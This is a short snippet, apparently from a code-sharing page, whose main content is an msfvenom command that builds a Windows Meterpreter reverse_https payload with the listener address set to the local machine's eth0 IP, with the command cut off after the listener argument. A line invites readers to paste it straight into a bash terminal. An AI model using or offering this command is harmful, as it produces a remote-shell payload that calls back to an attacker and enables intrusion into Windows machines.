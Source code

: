 msfvenom -p windows/meterpreter/reverse_https lhost=\`getip eth0\` ...

For us lazy folks...

Just paste the contents into a bash terminal

